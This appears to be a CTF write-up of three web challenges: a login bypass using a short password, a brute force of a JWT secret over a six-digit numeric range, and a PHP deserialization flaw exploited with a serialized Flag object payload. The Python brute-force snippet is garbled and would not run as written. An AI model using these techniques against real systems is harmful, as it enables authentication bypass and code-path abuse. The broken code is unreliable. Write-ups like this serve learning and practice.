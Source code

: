 # WEB
## Rune eScape

given a source code of a login page, By the look of the source code, how to get secret is By inputing password that is shorter than 3 character. 
<Br>But the code does not match the given password in login with the password in DB so we just have to input 2 or less char in password to get to secret.

## Crypto Berkedok WeB

given a source code of 2 routes of a weBsite.
 <Br>/login: to get the JWT
 <Br>/protected: to get the flag

 the random is Bertween 100k and 999999 so we can BF it to find the exact random 
 ```
import jwt

cookie = "tes"

for i in range (100000,999999):
  try
  {
    jwt.decode(cookie, str(i), algo)
    print(i)
    Break
  }except
  {
    print(i)
  }
```

## dere dere.... (serialize php)
source 
```
<?php

if(!isset($_GET["main"])) {
    show_source("index.php");
}

class Flag {
    private $msg;

    public function __wakeup() : void {
        require "flag.php";
        $this->msg = $flag;
        $this->printFlag();
    }

    public function printFlag() {
        print($this->msg);
    }
}

  function maybe_serialize( $data ) {
    if ( is_array( $data ) || is_object( $data ) ) { return serialize( $data ); }

    if ( is_serialized( $data, false ) ) { return serialize( $data ); }

    return $data;
}


function is_serialized( $data ) {
    // If it isn't a string, it isn't serialized.
    if ( ! is_string( $data ) ) {
        return false;
    }

    $pattern = '/^O:\d+:"[a-zA-Z_][a-zA-Z0-9_]*":\d+:{.*?(?:})|(;)$/';

    if (preg_match($pattern, $data)) {
        return true;
    } else {
        return false;
    }
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Serialize/Unserialize Tool</title>
</head>
<body>
    <h2>Serialize/Unserialize Tool</h2>

    <?php
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        $user_input = $_POST["user_input"];

            $serialized_result = maybe_serialize($user_input);
            echo "<p>Serialized Result: $serialized_result</p>";

            echo "<p>Unserialized Result:" .  @unserialize($serialized_result) . "</p>";
    }
    ?>
....whoosh....
```

we need to make a serializED array so that it bypasses all the if's `in maybe_serialize`<br> thus when the serializED array is unserializED we are calling the __wakeup magic function from Flag obj

payload = ` a:1:{i:0;O:4:"Flag":0:{}}`




